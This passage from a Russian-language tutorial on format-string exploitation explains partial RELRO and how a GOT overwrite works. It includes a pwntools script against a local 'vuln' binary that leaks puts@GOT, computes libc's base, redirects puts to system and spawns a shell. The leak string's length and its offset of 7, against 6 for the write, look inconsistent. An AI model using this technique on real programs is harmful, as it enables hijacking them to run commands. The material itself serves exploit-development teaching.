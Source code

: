 Для записи полного 64‑битного адреса его сначала разбивают на младшие и старшие 16 бит. Значение `addr_low` указывает, сколько символов нужно вывести до первого `%hn`, а `delta` высчитывается таким образом, чтобы после второго кусочка вывода счётчик достиг `addr_hi`. Функция `printf` обрабатывает спецификаторы слева направо: сначала она выводит ровно `addr_low` пробелов, выполняет запись младших 16 бит по адресу `got`, затем дополняет вывод `delta` пробелами и сохраняет старшие 16 бит по адресу `got + 2`. Благодаря накопительному поведению счётчика и строгому порядку выполнения описанная схема гарантирует точную поэтапную запись всего 64‑битного значения.

## 5. Перезапись GOT: partial RELRO

В ELF‑бинарях механизм динамической линковки организован через две взаимосвязанные структуры: PLT (Procedure Linkage Table) и GOT (Global Offset Table). При первой попытке вызвать внешнюю функцию из библиотеки процессор попадает в PLT‑заглушку, которая обращается к соответствующей записи в GOT. В режиме **partial RELRO** сам сегмент GOT остаётся доступным для записи, что позволяет менять адреса подтягиваемых функций «на лету».

Чтобы перенаправить вызов `puts()` на `system()`, нужно выполнить три шага. Сначала мы **утекаем** текущее значение `puts@GOT` через уязвимый `printf`. Далее, зная смещение `puts` и `system` внутри libc, находим базовый адрес библиотеки и вычисляем точный адрес `system` в памяти процесса. Последним шагом служит формирование payload‑а, который перезапишет запись GOT, и вызов `puts()` превратится в вызов `system()`.

Ниже приведён пример эксплойта на Python с использованием pwntools:

```python
from pwn import *

# Загружаем ELF‑образ уязвимой программы и локальную libc
elf   = ELF('vuln')
libc  = ELF('libc.so.6')

# Запускаем процесс
p = process(elf.path)

# 1) Утечка адреса puts через форматную строку
#    %7$s читает седьмой аргумент как строку
#    и печатает содержимое по адресу elf.got['puts']
p.sendline(b"%7$sEND" + p64(elf.got['puts']))
raw_leak = p.recvuntil(b"END")[:-3]
leak = u64(raw_leak.ljust(8, b"\x00"))

# 2) Вычисляем базовый адрес libc
#    реальный puts = libc_base + libc.symbols['puts']
libc_base = leak - libc.symbols['puts']

# 3) Готовим payload: перезапись elf.got['puts'] на адрес system
system_addr = libc_base + libc.symbols['system']
payload = fmtstr_payload(
    offset = 6,                           # смещение, с которого начинаются наши указатели
    writes = { elf.got['puts']: system_addr },
    write_size = 'short'                  # дробим запись на 2‑байтовые половины автоматически
)

# Отправляем готовый payload и получаем интерактивную консоль
p.sendline(payload)
p.sendline(b"/bin/sh")
p.interactive()
```
